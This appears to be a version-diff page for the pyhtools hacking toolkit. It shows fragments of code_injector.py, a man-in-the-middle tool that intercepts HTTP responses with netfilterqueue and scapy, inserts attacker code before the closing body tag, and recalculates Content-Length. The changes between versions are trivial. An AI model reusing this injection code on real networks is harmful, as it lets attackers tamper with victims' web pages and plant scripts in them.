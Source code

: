  * *Files identical despite different names*

### Comparing `pyhtools-2.2.3/pyhtools/attackers/Network/code_injector.py` & `pyhtools-2.2.4/pyhtools/attackers/Network/code_injector.py`

 * *Files 1% similar despite different names*

```diff
@@ -6,19 +6,19 @@
 #########################################################################
 # If you encounter Import error after installing netfilter use command 
 # sudo apt install libnfnetlink-dev libnetfilter-queue-dev
 # sudo pip3 install --upgrade -U git+https://github.com/kti/python-netfilterqueue 
 #########################################################################
 
 from subprocess import call
-import netfilterqueue
-import scapy.all as scapy
 from re import search, sub
 from pyhtools.UI.colors import *
 
+import scapy.all as scapy
+import netfilterqueue
 
 ############################### Functions ############################### 
 def forward_packets():
     '''configures the mitm for incoming request packets
     into a queue.
 
     Args:
@@ -96,15 +96,15 @@
             load = load.replace('</BODY>', '</body>')
             if '</body>' in load:
                 print('\n[+] Script/Code Injected!!\n')
                 tampered_load = load.replace('</body>', inj_code+'</body>')
                 tampered_load = tampered_load.encode('utf-8', 'ignore')
                 print(tampered_load)
 
-                content_len_search = search("(?:Content-Length:\s)(\d*)", load)
+                content_len_search = search(r"(?:Content-Length:\s)(\d*)", load)
                 if content_len_search and b'text/html' in load:
                     content_len = content_len_search.group(1)
                     new_content_len = int(content_len) + len(inj_code)
 
                     tampered_load = sub(b'(?:Content-Length:\s)(\d*)', bytes(new_content_len), tampered_load)
                 print(tampered_load)
```

### Comparing `pyhtools-2.2.3/pyhtools/attackers/Network/dnsspoofer.py` & `pyhtools-2.2.4/pyhtools/attackers/Network/dnsspoofer.py`
